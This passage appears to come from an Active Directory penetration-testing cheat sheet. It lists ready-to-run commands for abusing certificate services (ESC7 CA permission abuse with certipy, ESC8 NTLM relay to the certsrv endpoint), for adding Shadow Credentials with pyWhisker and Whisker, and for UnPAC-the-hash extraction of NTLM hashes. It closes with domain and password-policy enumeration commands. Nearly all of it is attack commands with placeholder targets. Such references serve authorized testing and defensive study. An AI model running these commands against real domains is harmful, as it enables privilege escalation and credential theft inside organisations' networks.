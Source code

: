 #### **ESC7 - Vulnerable Certificate Authority Access Control**
```bash
# Exploit CA admin permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -enable-template VulnTemplate
```

#### **ESC8 - NTLM Relay to AD CS HTTP Endpoints**
```bash
# NTLM Relay to Certificate Authority
ntlmrelayx.py -t http://CA_SERVER/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### **🔐 Advanced Certificate Attacks**

#### **Shadow Credentials**
```bash
# Linux - pyWhisker
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action add
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action list

# Windows - Whisker
.\Whisker.exe add /target:TARGET_USER
.\Whisker.exe list /target:TARGET_USER
```

#### **UnPAC the Hash**
```bash
# Use certificate to get TGT and extract NTLM hash
certipy auth -pfx user.pfx -dc-ip DC_IP
python3 gettgtpkinit.py domain.com/user -cert-pfx user.pfx -pfx-pass password
python3 getnthash.py domain.com/user -key TGT_KEY
```

---

## 📋 **Quick Commands Cheat Sheet**

### **Domain Info**
```bash
# Get domain SID
lookupsid.py domain.com/username:password@DC_IP

# Get domain functional level
Get-ADDomain | select DomainMode
```

### **Password Policies**
```bash
# Linux
enum4linux -P DC_IP

# Windows
net accounts /domain
```

